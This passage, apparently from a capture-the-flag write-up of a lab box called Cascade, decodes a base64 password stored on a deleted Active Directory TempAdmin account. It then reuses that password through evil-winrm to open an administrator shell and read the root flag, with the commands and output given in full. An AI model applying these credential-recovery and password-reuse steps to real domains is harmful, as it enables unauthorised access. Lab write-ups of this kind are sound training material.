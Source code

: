     lastLogon                       : 0
    logonCount                      : 0
    Modified                        : 1/27/2020 3:24:34 AM
    modifyTimeStamp                 : 1/27/2020 3:24:34 AM
    msDS-LastKnownRDN               : TempAdmin
    Name                            : TempAdmin
                                      DEL:f0cc344d-31e0-4866-bceb-a842791ca059
    nTSecurityDescriptor            : System.DirectoryServices.ActiveDirectorySecurity
    ObjectCategory                  :
    ObjectClass                     : user
    ObjectGUID                      : f0cc344d-31e0-4866-bceb-a842791ca059
    objectSid                       : S-1-5-21-3332504370-1206983947-1165150453-1136
    primaryGroupID                  : 513
    ProtectedFromAccidentalDeletion : False
    pwdLastSet                      : 132245689883479503
    sAMAccountName                  : TempAdmin
    sDRightsEffective               : 0
    userAccountControl              : 66048
    userPrincipalName               : TempAdmin@cascade.local
    uSNChanged                      : 237705
    uSNCreated                      : 237695
    whenChanged                     : 1/27/2020 3:24:34 AM
    whenCreated                     : 1/27/2020 3:23:08 AM

We decode the base64 filed and found some password.

    :::text
    kali@kali:~$ echo -ne 'YmFDVDNyMWFOMDBkbGVz' | base64 -d
    baCT3r1aN00dles

My first idea was to restore the object but it seems that this is not possible.

    :::text
    *Evil-WinRM* PS C:\Users\arksvc\Documents>  Get-ADObject -Filter 'samaccountname -eq "TempAdmin"' -IncludeDeletedObjects | Restore-ADObject
    Insufficient access rights to perform the operation
    At line:1 char:81
    + ... ccountname -eq "TempAdmin"' -IncludeDeletedObjects | Restore-ADObject
    +                                                          ~~~~~~~~~~~~~~~~
        + CategoryInfo          : InvalidOperation: (CN=TempAdmin\0A...ascade,DC=local:ADObject) [Restore-ADObject], ADException
        + FullyQualifiedErrorId : 0,Microsoft.ActiveDirectory.Management.Commands.RestoreADObject

Therefore I just tried to connect as `administrator` hoping for password reuse,
it worked and I was able to get the root flag..

    :::text
    kali@kali:~/tools/github/evil-winrm$ ruby ./evil-winrm.rb -i 10.10.10.182 -u administrator -pbaCT3r1aN00dles

    Evil-WinRM shell v1.8

    Info: Establishing connection to remote endpoint

    *Evil-WinRM* PS C:\Users\Administrator\Documents> type ../Desktop/root.txt
    86e93219a4f189663d558122a087a4c3

## Wrapping up

This box was fun as there was a lot of different stuff and everything went
smoothly. The only painful part is the dig into the `ldapsearch` results as the
file is quit long (6 363 lines).

